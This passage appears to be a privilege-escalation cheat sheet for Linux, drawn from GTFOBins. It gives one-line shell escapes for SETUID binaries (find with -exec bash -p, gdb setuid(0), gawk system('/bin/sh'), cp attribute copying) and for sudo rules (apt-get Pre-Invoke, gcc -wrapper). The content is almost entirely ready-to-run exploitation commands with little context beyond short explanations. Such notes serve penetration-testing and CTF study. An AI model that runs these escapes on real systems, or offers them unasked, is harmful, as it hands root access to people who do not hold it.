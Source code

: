 We can use the [GTFOBins](https://gtfobins.github.io/gtfobins/) to read existent exploitation for binaries in Linux. Below more examples.

### SETUID

#### find

find utils can be abused and can execute a shell. We use `-p` to preventing the effective user from being reset.

```shell
find /home/joe/Desktop -exec "/usr/bin/bash" -p \;
```

#### gdb

```shell
/usr/bin/gdb -nx -ex 'python import os; os.setuid(0)' -ex '!sh' -ex quit
```

#### cp

```shell
LFILE=file_to_change
/usr/bin/cp --attributes-only --preserve=all ./cp "$LFILE"
```

#### gawk

```shell
/usr/bin/gawk 'BEGIN {system("/bin/sh")}'
```

### SUDO

In the file `/etc/sudoers` the sysadmin can specify which commands the users can run with the "sudo" keyword that can be used to run the command with elevated privileges. This could led to a many exploit tecniques that we can find referring to GTFObins. Normally users that can run "sudo" are the users listed in the `sudo group`.

#### apt

```shell
sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
```

#### gcc

```shell
sudo gcc -wrapper /bin/sh,-s .
```